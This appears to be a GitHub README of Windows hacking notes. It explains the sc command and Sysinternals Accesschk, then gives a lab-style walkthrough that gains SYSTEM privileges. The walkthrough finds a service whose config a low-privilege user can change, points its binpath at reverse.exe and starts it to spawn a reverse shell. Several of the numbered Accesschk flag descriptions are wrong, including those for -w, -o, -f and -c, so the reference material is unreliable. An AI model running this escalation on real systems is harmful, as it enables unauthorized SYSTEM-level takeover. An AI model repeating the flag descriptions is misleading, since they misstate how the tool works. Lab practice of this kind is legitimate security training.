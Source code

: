 # windows-hacking









________________________


**sc command**

The sc command in Windows is used to 
communicate with the Service Control Manager and services. 
It allows users to query, start, stop, pause, resume, and modify services on the local or a remote computer.

To start a service named "MyService", you can use the following command:
```
sc start MyService
```

_________________________

**Accesschk**


Accesschk is a command-line tool in the Windows Sysinternals suite created by Microsoft that allows users to view the security settings of files, directories, registry keys, and services on a Windows system. It provides a detailed report of the access control lists (ACLs) and permission settings for various objects, helping users to quickly identify any security vulnerabilities or misconfigurations.

Accesschk can be used to audit and troubleshoot permissions on a system, ensuring that only authorized users have access to sensitive resources. It is particularly useful for system administrators and security professionals who need to perform security assessments and ensure compliance with organizational security policies.

Some common use cases for Accesschk include:
- Verifying that a specific user or group has the necessary permissions to access a certain file or directory
- Checking the permissions of a service to determine if it is properly configured
- Identifying potential security risks by discovering overly permissive access controls
- Troubleshooting access issues by comparing the expected permissions with the actual permissions set on an object

Accesschk is a powerful tool that can help improve the security posture of a Windows system by providing valuable insights into its security settings. However, it should be used with caution, as making changes to permissions without understanding the consequences can potentially lead to system instability or security breaches.


______________________

1. accesschk -w Users C:\Program Files\ExampleApp
This command checks the access control permissions for the "Users" group on the ExampleApp folder located at C:\Program Files. It will show the specific permissions that the Users group has on that folder.

2. accesschk -s -q -c HKLM\SOFTWARE
This command checks the security permissions for the HKLM\SOFTWARE registry key. The -s flag specifies that it should recurse into all subkeys, the -q flag suppresses the banner and column headers, and the -c flag specifies that only the key security settings should be displayed.

3. accesschk -uwc "Authenticated Users" C:\Windows\System32
This command checks the specific permissions for the "Authenticated Users" group on the System32 folder in the Windows directory. The -u flag specifies that it should only display specific user or group permissions, and the -w flag specifies displaying the effective access for each object.

4. accesschk -q -o *.dll C:\Windows
This command checks the security permissions for all DLL files in the Windows directory. The -q flag suppresses the banner and column headers, and the -o flag specifies that only objects matching the search pattern should be displayed.

5. accesschk -q -f -s -u Everyone C:\
This command checks the security permissions for all files and folders on the C:\ drive for the "Everyone" group. The -f flag specifies that it should also check file permissions, the -s flag specifies that it should recurse into subdirectories, and the -u flag forces it to display the user/group name for each object.


_______________


**How to get Autority**



Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

```
sc qc daclsvc
```

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start daclsvc
```




